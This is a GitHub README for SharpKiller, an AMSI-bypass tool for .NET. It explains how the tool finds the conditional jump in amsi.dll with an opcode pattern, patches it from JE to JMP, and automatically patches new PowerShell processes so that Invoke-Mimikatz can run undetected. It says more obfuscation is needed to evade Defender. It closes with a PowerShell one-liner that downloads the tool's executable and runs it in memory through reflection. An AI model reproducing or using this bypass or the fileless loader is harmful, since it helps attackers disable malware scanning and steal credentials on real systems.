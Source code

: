 # SharpKiller
Lifetime AMSI bypass AMSI-Killer by @ZeroMemoryEx ported to .NET Framework 4.8.

### Additional Obfuscation required
https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=VirTool:MSIL/SharpKiller.A&ThreatID=2147895059

### Newly integrated features:

[ x ] - Live scan for new powershell processes every 0.5 seconds -> Automatically patches new powershell instances 

#### Building the solution
* Set your platform explicitly to x64 in Build > configuration manager

## How does it work?
### Opcode Scan

* we get the exact address of the jump instruction by searching for the first byte of each instruction this technique is effective even in the face of updates or modifications to the target data set.

* for example :

  ` | 48:85D2 | test rdx, rdx |`

  ` | 74 3F | je amsi.7FFAE957C694 |`

  ` | 48 : 85C9 | test rcx, rcx |`

  ` | 74 3A | je amsi.7FFAE957C694 |`

  ` | 48 : 8379 08 00 | cmp qword ptr ds : [rcx + 8] , 0 |`

  ` | 74 33 | je amsi.7FFAE957C694 |`

* the search pattern will be like this :

  `{ 0x48,'?','?', 0x74,'?',0x48,'?' ,'?' ,0x74,'?' ,0x48,'?' ,'?' ,'?' ,'?',0x74,0x33}`

  
  ![image](https://user-images.githubusercontent.com/60795188/221431685-60fb2012-db0f-41aa-bd7b-3a19f07c91c4.png)

## Patch

### Before Patch

* The program tests the value of RDX against itself. If the comparison evaluates to 0, the program executes a jump to return. Otherwise, the program proceeds to evaluate the next instruction

  ![image](https://user-images.githubusercontent.com/60795188/221431975-73c78c9c-5358-44c2-b0de-41d68024e2bb.png)
  
  <img src="https://github.com/S1lkys/SharpKiller/assets/40408435/59f4ef29-9ed1-4d14-9ea8-f29bf299534d" height="500">

* we cant execute "Invoke-Mimikatz"

  ![image](https://user-images.githubusercontent.com/60795188/221432132-20993ccf-c53e-493d-8b22-feaea86fb6bf.png)

### After Patch


* we patch the first byte and change it from JE to JMP so it return directly 

  ![Screenshot 2023-02-26 195848](https://user-images.githubusercontent.com/60795188/221444031-5b8c365f-cb38-4ce4-89b5-153ecc12208d.png)

  ![image](https://user-images.githubusercontent.com/60795188/221432418-841db688-879c-4915-8d6e-926236a3732c.png)

* now we can execute "Invoke-Mimikatz"
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo_.jpg" height="450">


### Newly created processes

* Sharp-Killer will patch any newly created Powershell processes in near real time.
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.jpg" height="450">

## Video demo
  ![video](https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.gif)

## OneLiner to run with reflection
```
$url = "https://github.com/S1lkys/SharpKiller/releases/download/1.1/Sharp-Killer.exe"; $cli = New-Object System.Net.WebClient; $sk=[System.Reflection.Assembly]::Load([byte[]]( $cli.DownloadData($url)));$vars = New-Object System.Collections.Generic.List[System.Object];$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static";$sk.EntryPoint.Invoke($null,@(,$passed));
```

## References:
* https://github.com/ZeroMemoryEx/Amsi-Killer

